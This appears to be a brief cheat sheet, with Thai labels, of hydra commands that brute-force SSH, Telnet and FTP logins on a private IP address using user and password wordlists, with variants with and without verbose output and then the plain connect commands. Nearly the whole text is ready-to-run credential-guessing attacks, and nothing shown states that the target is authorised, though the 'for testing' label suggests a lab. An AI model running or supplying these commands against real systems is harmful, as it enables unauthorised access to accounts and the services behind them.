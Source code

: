 ## SSH brute force

- สำหรับทดสอบ
```bash
hydra -L users.txt -P passwords.txt ssh://172.29.169.27 -t 4 -vV
```
- แบบไม่มี log
```bash
hydra -L users.txt -P passwords.txt ssh://172.29.169.27 -t 4
```

- สำหรับเชื่อมต่อ
```bash

```
ssh username@172.29.169.27

## Telnet brute force
- สำหรับทดสอบ
- แบบมี log
```bash
hydra -L users.txt -P passwords.txt telnet://172.29.169.27 -t 4 -vV
```
- แบบไม่มี log
```bash
hydra -L users.txt -P passwords.txt telnet://172.29.169.27 -t 4
```

- สำหรับเชื่อมต่อ
```bash
telnet 172.29.169.27 23
```

## FTP brute force
- แบบมี log
```bash
hydra -L users.txt -P passwords.txt ftp://172.29.169.27 -t 4 -vV
```
- แบบไม่มี log
```bash
hydra -L users.txt -P passwords.txt ftp://172.29.169.27 -t 4
```

- สำหรับเชื่อมต่อ
```bash
ftp 172.29.169.27
```